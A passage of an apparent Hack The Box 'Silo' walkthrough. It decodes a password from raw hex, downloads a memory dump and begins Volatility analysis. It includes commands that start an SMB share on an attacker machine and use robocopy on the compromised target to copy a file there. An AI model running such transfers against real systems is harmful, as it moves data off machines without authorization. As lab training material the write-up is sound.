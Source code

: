 Going to the Dropbox link does actually provide a download option, however a password is needed. The `?` in the password looks like some encoding error? Download the file and look at the bytes raw:

```bash
# run on kali
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe c:\Users\Phineas\Desktop \\10.10.14.25\BUBBA "Oracle issue.txt" /copy:DT /w:1 /r:1 /v 
```

![user3](./silo/user3.png)

It seems like the raw password bytes are `a325486d38363436754324`. [Convert it to text](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=YTMyNTQ4NmQzODM2MzQzNjc1NDMyNA) and the password becomes `£%Hm8646uC$`. Access the link to download the memory dump file `SILO-20180105-221806.zip`. Then extract and parse the memory dump using `Volatility`:

- https://github.com/volatilityfoundation/volatility
- https://www.volatilityfoundation.org/releases

```bash
unzip SILO-20180105-221806.zip
wget http://downloads.volatilityfoundation.org/releases/2.6/volatility_2.6_lin64_standalone.zip
unzip volatility_2.6_lin64_standalone.zip
```

First, get the target profile to use based on the output from `systeminfo` on the target (`Microsoft Windows Server 2012 R2 Standard`):

```bash
volatility_2.6_lin64_standalone/volatility_2.6_lin64_standalone --info | grep 2012
```

